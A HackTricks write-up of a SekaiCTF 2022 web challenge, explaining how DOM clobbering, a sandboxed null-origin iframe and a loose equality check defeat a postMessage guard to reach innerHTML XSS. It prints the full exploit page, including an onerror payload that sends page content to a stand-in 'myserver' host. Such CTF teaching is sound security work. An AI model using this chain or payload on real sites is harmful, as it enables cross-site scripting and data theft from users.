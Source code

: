 # Bypassing SOP with Iframes - 2

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making **`window.calc.contentWindow`** to **`undefined`** and **`e.source`** to **`null`**:

* **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  * Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  * Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

* Sending `token` in the postMessage with value `null` is trivial.
* **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
    <body>
        <script>
            // Abuse "expr" param to cause a HTML injection and
            // clobber document.getElementById and make window.calc.contentWindow undefined
            open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');
            
            function start(){
                var ifr = document.createElement('iframe');
                // Create a sandboxed iframe, as sandboxed iframes will have origin null
                // this null origin will document.cookie trigger an error and window.token will be undefined
                ifr.sandbox = 'allow-scripts allow-popups';
                ifr.srcdoc = `<script>(${hack})()<\/script>`
                
                document.body.appendChild(ifr);
                
                function hack(){
                    var win = open('https://obligatory-calc.ctf.sekai.team');
                    setTimeout(()=>{
                        parent.postMessage('remove', '*');
                        // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
                        // token=null equals to undefined and e.source will be null so null == undefined
                        win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
                    },1000);
                }
                
                // this removes the iframe so e.source becomes null in postMessage event.
                onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
            }
            setTimeout(start, 1000);
        </script>
    </body>
</html>
```

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
